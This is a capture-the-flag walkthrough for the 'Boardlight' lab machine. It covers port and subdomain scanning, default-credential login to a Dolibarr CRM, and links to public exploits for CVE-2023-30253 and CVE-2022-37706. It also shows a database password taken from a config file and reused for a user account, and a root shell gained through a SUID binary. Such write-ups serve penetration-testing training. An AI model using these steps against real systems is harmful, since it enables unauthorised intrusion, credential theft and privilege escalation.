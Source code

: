 # Boardlight

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt="" width="225"><figcaption></figcaption></figure>

## Enumeration

### Port Scan

```bash
PORT   STATE SERVICE REASON  VERSION                                                                                                                                                                               
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)                                                                                                                         
| ssh-hostkey:                                                                                                                                                                                                     
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)                                                                                                                                                     
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDH0dV4gtJNo8ixEEBDxhUId6Pc/8iNLX16+zpUCIgmxxl5TivDMLg2JvXorp4F2r8ci44CESUlnMHRSYNtlLttiIZHpTML7ktFHbNexvOAJqE1lIlQlGjWBU1hWq6Y6n1tuUANOd5U+Yc0/h53gKu5nXTQTy1c9CLbQfaYvFjnz
rR3NQ6Hw7ih5u3mEjJngP+Sq+dpzUcnFe1BekvBPrxdAJwN6w+MSpGFyQSAkUthrOE4JRnpa6jSsTjXODDjioNkp2NLkKa73Yc2DHk3evNUXfa+P8oWFBk8ZXSHFyeOoNkcqkPCrkevB71NdFtn3Fd/Ar07co0ygw90Vb2q34cu1Jo/1oPV1UFsvcwaKJuxBKozH+VA0F9hyriPKjsv
TRCbkFjweLxCib5phagHu6K5KEYC+VmWbCUnWyvYZauJ1/t5xQqqi9UWssRjbE1mI0Krq2Zb97qnONhzcclAPVpvEVdCCcl0rYZjQt6VI1PzHha56JepZCFCNvX3FVxYzEk=                                                                               
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)                                                                                                                                                    
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK7G5PgPkbp1awVqM5uOpMJ/xVrNirmwIT21bMG/+jihUY8rOXxSbidRfC9KgvSDC4flMsPZUrWziSuBDJAra5g=                                                 
|   256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)                                                                                                                                                  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILHj/lr3X40pR3k9+uYJk4oSjdULCK0DlOxbiL66ZRWg                                                                                                                                 
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))                                                                                                                                                        
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).                                                                                                                                                
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Directory Scan

```bash
└─➜ ffuf -u http://board.htb/FUZZ -w /usr/share/wordlists/Discovery/Web-Content/common.txt -e .php                                                                                                             [1]

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/Discovery/Web-Content/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.hta                    [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 316ms]
.htaccess.php           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 318ms]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 319ms]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 320ms]
.hta.php                [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 320ms]
.htpasswd.php           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 322ms]
about.php               [Status: 200, Size: 9100, Words: 3084, Lines: 281, Duration: 334ms]
contact.php             [Status: 200, Size: 9426, Words: 3295, Lines: 295, Duration: 410ms]
css                     [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 409ms]
do.php                  [Status: 200, Size: 9209, Words: 3173, Lines: 295, Duration: 408ms]
images                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 385ms]
index.php               [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 408ms]
index.php               [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 409ms]
js                      [Status: 301, Size: 303, Words: 20, Lines: 10, Duration: 408ms]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 407ms]
:: Progress: [9454/9454] :: Job [1/1] :: 103 req/sec :: Duration: [0:01:38] :: Errors: 0 ::

```

### Subdomain Scan

```bash
└─➜ ffuf -u http://board.htb/ -w /usr/share/wordlists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.board.htb'  -fw 6243                                                                        [0] 
                                                                                                                                                                                                                   
        /'___\  /'___\           /'___\                                                                                                                                                                            
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                                                                            
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                                                                           
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                                                                           
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                                                                            
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 6243
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 1944ms]
:: Progress: [4989/4989] :: Job [1/1] :: 125 req/sec :: Duration: [0:00:49] :: Errors: 0 ::

```

## Web Attack

Under subdomain we can see it's hosting dolibarr (v17.0.0). This version is vulnerable to RCE.

* You can login with default credentials (`admin:admin`) on (`crm.board.htb`)

### Resource

* https://github.com/advisories/GHSA-9wqr-5jp4-mjmh
*   https://www.swascan.com/security-advisory-dolibarr-17-0-0/

    * Alternative: https://www-swascan-com.translate.goog/it/security-advisory-dolibarr-17-0-0/?\_x\_tr\_sl=it&\_x\_tr\_tl=en&\_x\_tr\_hl=en&\_x\_tr\_pto=sc


* [https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

## Shell www-data

After we exploit, we get a www-data shell

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The default config files are under `htdocs/conf/conf.php`

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

<<SNIP>>
```



## Shell - user

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su - larissa
su - larissa
Password: serverfun2$2023!!
id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
```

We can ssh into the box for proper tty shell.

## Shell root

<pre class="language-bash"><code class="lang-bash">larissa@boardlight:~$ find / -perm -4000 -ls 2>find / -perm -4000 -ls 2>/dev/null
<strong> 2491     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
</strong>  608     16 -rwsr-sr-x   1 root     root        14488 Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
17633     28 -rwsr-xr-x   1 root     root        26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
17628     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
17627     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
17388     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
    
    
    &#x3C;&#x3C;SNIP>>
</code></pre>

If we google about enlightenment, we see it's a WM for Xorg.

```bash
larissa@boardlight:~$ enlightenment --version
ESTART: 0.00002 [0.00002] - Begin Startup
ESTART: 0.00121 [0.00119] - Signal Trap
ESTART: 0.00123 [0.00002] - Signal Trap Done
ESTART: 0.00277 [0.00154] - Eina Init
ESTART: 0.00496 [0.00219] - Eina Init Done
ESTART: 0.00500 [0.00004] - Determine Prefix
ESTART: 0.00693 [0.00193] - Determine Prefix Done
ESTART: 0.00696 [0.00003] - Environment Variables
ESTART: 0.00698 [0.00002] - Environment Variables Done
ESTART: 0.00699 [0.00001] - Parse Arguments
Version: 0.23.1
E: Begin Shutdown Procedure!
```

After googling the version, we can find the exploit,\
[https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh)



```bash
larissa@boardlight:/tmp/heap$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
```

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes' still pwning
